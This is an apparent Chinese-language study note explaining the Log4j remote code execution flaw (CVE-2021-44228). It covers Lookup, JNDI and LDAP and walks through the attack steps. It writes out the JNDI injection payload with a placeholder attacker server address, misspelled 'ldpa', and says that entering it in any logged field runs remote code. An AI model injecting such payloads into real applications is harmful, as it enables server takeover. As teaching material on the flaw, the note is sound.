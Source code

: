 > 参考资料：
> https://projectlombok.org/features/log
> https://github.com/projectlombok/lombok/issues/3063
> 《深入理解 JVM 字节码》
> 《深入理解 Java 虚拟机》
> [blackhat 2016 年议题](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
> https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
> [slf4j 官网](https://www.slf4j.org/manual.html)
> [slf4j github](https://github.com/qos-ch/slf4j)
> %%想要电子书的可以找我%%

# 引入

2021 年 12 月，Apache Java模块Log4j库第一个远程代码执行漏洞被公开披露，该漏洞识别为CVE-2021-44228。此外，还陆续披露了漏洞——CVE-2021-45046和CVE-2021-45105。Log4j可能会成为现代网络安全史上最严重的漏洞。一旦漏洞被利用遭到入侵，服务器就可能会被劫持。
## 漏洞

能攻击到服务器的 **漏洞代码**
`${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` （ ldpa://恶意代码所在服务器 Ip /恶意代码类名），只需要将这行代码在任意会产生日志输出的输入框内输入就会在应用服务器上运行恶意代码
### 原理
log4j 对于我们来说，最常使用的是用来输出一些变量等，但是 log4j 除了可以输出程序中的变量，它还提供了一个叫 Lookup 的东西，可以用来输出更多内容（系统变量，网络中的变量等）。
Lookup 像是一个接口，具体去哪里查找，怎么查找需要具体模块的实现，而 log4j 已经帮我们把常见的查询途径都进行了实现。
![截屏2023-08-13 22.37.01.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/data%E6%88%AA%E5%B1%8F2023-08-13%2022.37.01.png)



**JNDI**
Java naming dictionary interface （Java 命名和字典接口），像一个字典一样，通过名称去查询对应的对象
Naming：命名服务，通过名称查找实际对象的服务，例如通过域名查询 IP 地址等
Dictionary：名称服务的一种拓展，除了名称服务中已有的名称到对象的关联信息外，还允许拥有属性信息。
在这图中，我们可以看到 SPI 是他的具体实现层。早在 2016年的时候就有人提出过一个议题"[A Journey From JNDI LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)"，指出当时会有安全问题，2016下半年，jdk 也进行了相关的修复，但是修复的只有 RMI 和 CORBA 方式，LDAP 仍有漏洞，直到此次被爆出。
![Pasted image 20230814075859.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/dataPasted%20image%2020230814075859.png)

**LDPA**
Lightweight Directory Access Protocol：轻量目录访问协议
LDAP也是有client端和server端。server端是用来存放资源，client端用来操作增删改查等操作
LDAP 类似于用一个树状结构将数据联系起来(和查询DNS服务挺类似的)层级搜索

**过程**
1. 黑客传入 `${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` 到业务服务器，并将 Reference 绑定到自己的命名/目录服务中
2. 应用程序执行查找
3. 应用程序连接到攻击者控制的 JNDI 服务并返回对象
4. 应用程序解码响应并触发有效负载

**核心问题**
Java 允许通过 JNDI 远程去下载一个 Class 文件来加载对象
### 修复
![截屏2023-08-14 14.54.35.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/data%E6%88%AA%E5%B1%8F2023-08-14%2014.54.35.png)
